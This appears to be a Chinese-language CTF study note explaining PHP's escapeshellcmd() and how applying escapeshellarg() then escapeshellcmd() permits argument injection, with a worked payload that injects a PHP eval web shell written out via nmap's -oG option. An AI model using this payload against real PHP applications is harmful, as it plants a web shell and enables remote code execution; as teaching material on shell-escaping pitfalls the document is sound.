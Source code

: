 功能：**escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [exec()](http://php.net/manual/zh/function.exec.php) 或 [system()](http://php.net/manual/zh/function.system.php) 函数，或者 [执行操作符](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。

反斜线（\）会在以下字符之前插入： *&#;`|*?~<>^()[]{}$*, *\x0A* 和 *\xFF*。 *’* 和 *“* 仅**在不配对儿的时候被转义**。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替。

**简而言之 过滤函数**

![24](img/d95ceb0c2de5dba534799e240cf1fdaa.png)

### PHP escapeshellarg()+escapeshellcmd() 之殇

1.  传入的参数是：`172.17.0.2' -v -d a=1`
2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

因此我们构造payload：

```
'<?php eval($_POST["a"]);?> -oG 1.php ' 
```

执行escapeshellarg()后

```
''\''<?php eval($_POST["a"]l)?> -oG 1.php '\''' 
```

在执行escapeshellcmd()后

```
''\\''<?php eval($_POST["a"]);?> -oG 1.php '\\' 
```

### 漏洞利用

**把想传输的命令用’ ‘包括起来**

tips：如果是先使用escapeshellcmd()后使用escapeshellarg()则没有此漏洞

# [GXYCTF2019]BabyUpload
